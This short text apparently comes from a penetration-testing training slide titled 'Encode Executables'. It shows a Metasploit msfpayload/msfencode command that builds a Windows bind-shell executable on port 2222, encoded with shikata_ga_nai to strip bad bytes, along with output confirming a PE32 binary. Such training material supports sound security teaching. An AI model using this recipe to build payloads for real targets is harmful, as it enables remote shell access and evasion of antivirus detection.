

# Encode Executables -1
# msfpayload windows/shell_bind_tcp LPORT=2222 R | msfencode -t exe -o msf2.exe -b "\x00\xff\x0a\x0d\x1a"
[*] x86/shikata_ga_nai succeeded with size 368 (iteration=1)

# file msf2.exe
msf2.exe: PE32 executable for MS Windows (GUI) Intel 80386 32-bit
51